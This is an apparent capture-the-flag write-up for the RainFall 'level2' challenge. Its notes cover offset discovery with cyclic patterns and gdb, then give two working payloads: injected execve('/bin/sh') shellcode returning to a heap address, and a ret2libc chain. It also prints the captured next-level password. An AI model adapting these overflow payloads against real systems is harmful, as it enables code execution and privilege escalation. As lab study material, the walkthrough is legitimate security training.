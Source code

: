 


first step checking if the binary vulnerable or not
```
python -c 'print "A" * 100' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
find where exactly does it crash
```
./pattern create 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

SIGSEGV in 0xb7ea4478 in ??
```

```
run <<< $(python -c 'print ("-" * 80 + "AAAA")')

"\x08\x04\x84\xe2"[::-1]

$(python -c 'print "-" * 80 + "\x08\x04\x84\xe2"[::-1] ')
```
there is no system() therefore no shell to jump to
```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Segmentation fault. 
0x61616175
```
```
unhex 61616175 | rev ; echo ""
uaaa
```
```
cyclic -l uaaa
80
```
manually calculating the distance between the buffer start address and the EIP
```
brek at  0x080484f2 <+30>:    mov    0x4(%ebp),%eax

 run <<< "AAAAAAAAAAAAAAAAAAAAAAAAAAAA"
 
info frame

eip at 0xbffff71c

(gdb) x/40wx $esp

0xbffff6b0:     0xbffff6cc      0x00000000      0x00000000      0xb7e5ec73

0xbffff6c0:     0x080482b5      0x00000000      0x00ca0000      0x41414141

(gdb) p/x 0xbffff6c0 + 12

$1 = 0xbffff6cc

(gdb) x 0xbffff6cc

0xbffff6cc:     0x41414141

(gdb) p/d 0xbffff71c - 0xbffff6cc. (also p/d $ebp+4 - (0xbffff6a0+12) )

$3 = 80
```
```
shellcraft i386.linux.sh

6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80

python3 -c 'import struct; print(struct.pack(">L", 0x44840408))'
```

other method:
```
r <<< "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU"

 SIGSEGV  0x55555555
 
 (gdb) p/c 0x55555555 = U

echo  "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT" | wc

81 - 1 = 80
```

===
```
define hook-stop
echo "---------------------------- esp -------------"
x/40wx $esp
echo "---------------------------- eip instructions -------------"
x/2i $eip
end
```

===

```
python3 -c 'print (len("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"))'

21

80 - 21 = 59
```
```
level2@RainFall:~$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\x04\xa0\x08"[::-1]'; cat) | ./level2

pwd
/home/user/level2

whoami
level3

cat /home/user/level3/.pass

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

how to get the heap addr : \x08\x04\xa0\x08

https://tc.gts3.org/cs6265/2019/tut/tut09-01-heap.html

 ltrace ./level2
 
 "pass a str" = = 0x0804a008 
 
 other method:
 
 smash the buffer to sigv by passin "a"s
 
 (gdb) info proc mappings
 
 heap addrs strat from  0x804a000 to 0x806b000
 
 examin 8 addr
``` 
 (gdb) x/8wx 0x804a000
 
0x804a000:      0x00000000      0x00000069      0x61616161      0x61616161

0x804a010:      0x61616161      0x61616161      0x61616161      0x61616161
```
first apperance of 'a' = 

(gdb) p/x 0x804a000 + 8 = 0x804a008
 
 =====
 
 ret2libc
 
 
 ret of p() func  0x0804853e to bypass check
 
 (gdb) p system ==> 0xb7e6b060
 
 (gdb) find system, +9999999, "/bin/sh" ==> 0xb7f8cc58
 
 system() needs a return value
 
 level2@RainFall:~$ python -c 'print "A" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "AAAA" + "\xb7\xf8\xcc\x58"[::-1] ' > /tmp/payload
 
 
 (cat /tmp/payload ; cat) | ./level2
 
 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
 

